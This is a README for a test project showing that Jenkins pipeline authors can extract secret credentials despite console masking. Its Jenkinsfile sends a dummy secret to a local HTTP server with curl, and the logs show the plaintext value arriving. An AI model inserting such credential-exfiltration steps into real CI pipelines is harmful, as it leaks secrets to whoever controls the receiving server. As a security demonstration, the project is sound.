 # Test jenkins security mechanism 

This project contains some tests to confirm that:
 
 - Anyone who can modify Jenkinsfile run on Jenkins server also can get secret credentials info by some way, Ex: write to file or pass parameter to CURL then send it to another HTTP server.
- If you define a string as credential content, then any sub strings equals with this credentials content will be replaced and masked by * characters when we print them to Jenkins build console

## Prerequisite

- A Jenkins server.
- A HTTP Server run on port 8000 (example, you can create it by this command: `python -m SimpleHTTPServer`)

## Steps:
- Set a Jenkins credentials with type is `secret text`, id is `test-credential-secret-text` and content is `133331`
- Connect github with Jenkins
- Commit to Github to trigger Jenkins build
- See Jenkins build console output

## Jenkinsfile content


```groovy

node {
    stage("Checkout") {
        checkout scm
    }
    stage('Test ansible read credentials') {
        docker.image('williamyeh/ansible:centos7').inside() {
            withCredentials([string(credentialsId: 'test-credential-secret-text',
                    variable: 'secret_text')]) {
                sh "ls -al"

                echo "${secret_text}"
                sh "ansible-playbook -i jenkins_local.ini " +
                        "-e 'secret_variable=${secret_text} normal_variable=123456' " +
                        "test_security.yml"
            }
        }
    }
    stage('Send secret credentials to outside Server') {
        withCredentials([string(credentialsId: 'test-credential-secret-text',
                variable: 'secret_text')]) {
            sh "curl -X GET 'http://127.0.0.1:8000?secret_text=${secret_text}'"
        }
    }

    stage('Write secret credentials to files') {
        withCredentials([string(credentialsId: 'test-credential-secret-text',
                variable: 'secret_text')]) {
            writeFile file: "secret.txt", text: "${secret_text}"
            def fileContent = readFile file: "secret.txt"
            sh "curl -X GET 'http://127.0.0.1:8000?secret_text=${fileContent}abcdef'"
        }
    }
    stage('Print somethings equals contents') {
        withCredentials([string(credentialsId: 'test-credential-secret-text',
                variable: 'secret_text')]) {
            echo "${secret_text}"
            def secret_text2 ="133331"
            echo "${secret_text2}"
            echo "133331"
        }
    }
}

```

### Jenkins build console output


```log
[Pipeline] echo
****
[Pipeline] sh
[jenkins-security-test_master-6AZFAWRWEHCIEDMHLYY666ZGCGZ4FEPGZP6VDQSIYBRPN77QDUMQ] Running shell script
+ ansible-playbook -i jenkins_local.ini -e 'secret_variable=**** normal_variable=123456' test_security.yml

PLAY [jenkins_local] ***********************************************************

TASK [Gathering Facts] *********************************************************
ok: [localhost]

TASK [test_security : Print secret environment variable when contains] *********
ok: [localhost] => {
    "msg": "secret variable contains 13"
}

TASK [test_security : Print secret environment variable when contains] *********
ok: [localhost] => {
    "msg": "secret variable not contains 96"
}

TASK [test_security : Print directly secret environment variable] **************
ok: [localhost] => {
    "msg": "****"
}

TASK [test_security : Print normal environment variable] ***********************
ok: [localhost] => {
    "msg": "123456"
}

PLAY RECAP *********************************************************************
localhost                  : ok=5    changed=0    unreachable=0    failed=0   

[Pipeline] }
[Pipeline] // withCredentials
[Pipeline] }
[Pipeline] stage
[Pipeline] { (Send secret credentials to outside Server)
[Pipeline] withCredentials
[Pipeline] {
[Pipeline] sh
[enkins-security-test_master-6AZFAWRWEHCIEDMHLYY666ZGCGZ4FEPGZP6VDQSIYBRPN77QDUMQ] Running shell script
+ curl -X GET http://127.0.0.1:8000?secret_text=****
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed

  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
100   332  100   332    0     0   106k      0 --:--:-- --:--:-- --:--:--  162k
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 3.2 Final//EN"><html>
<title>Directory listing for /?secret_text=****</title>
<body>
<h2>Directory listing for /?secret_text=****</h2>
</body>
</html>
[Pipeline] stage
[Pipeline] { (Write secret credentials to files)
[Pipeline] withCredentials
[Pipeline] {
[Pipeline] writeFile
[Pipeline] readFile
[Pipeline] sh
[enkins-security-test_master-6AZFAWRWEHCIEDMHLYY666ZGCGZ4FEPGZP6VDQSIYBRPN77QDUMQ] Running shell script
+ curl -X GET http://127.0.0.1:8000?secret_text=****abcdef
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed

  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
100   344  100   344    0     0   152k      0 --:--:-- --:--:-- --:--:--  335k
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 3.2 Final//EN"><html>
<title>Directory listing for /?secret_text=****abcdef</title>
<body>
<h2>Directory listing for /?secret_text=****abcdef</h2>
<hr>
</body>
</html>
[Pipeline] stage
[Pipeline] { (Print somethings equals contents)
[Pipeline] withCredentials
[Pipeline] {
[Pipeline] echo
****
[Pipeline] echo
****
[Pipeline] echo
****
[Pipeline] }
[Pipeline] // node
[Pipeline] End of Pipeline

GitHub has been notified of this commit’s build result

Finished: SUCCESS
```

### Secret info received in HTTP Server

```log
127.0.0.1 - - [03/Sep/2018 21:05:47] "GET /?secret_text=133331 HTTP/1.1" 200 -
127.0.0.1 - - [03/Sep/2018 21:06:03] "GET /?secret_text=133331 HTTP/1.1" 200 -
127.0.0.1 - - [03/Sep/2018 21:23:03] "GET /?secret_text=133331 HTTP/1.1" 200 -
127.0.0.1 - - [03/Sep/2018 21:31:03] "GET /?secret_text=133331 HTTP/1.1" 200 -
127.0.0.1 - - [03/Sep/2018 21:31:04] "GET /?secret_text=133331abcdef HTTP/1.1" 200 -
127.0.0.1 - - [03/Sep/2018 21:45:31] "GET /?secret_text=133331 HTTP/1.1" 200 -
127.0.0.1 - - [03/Sep/2018 21:45:32] "GET /?secret_text=133331abcdef HTTP/1.1" 200 -
127.0.0.1 - - [03/Sep/2018 21:49:03] "GET /?secret_text=133331 HTTP/1.1" 200 -
127.0.0.1 - - [03/Sep/2018 21:49:03] "GET /?secret_text=133331abcdef HTTP/1.1" 200 -
```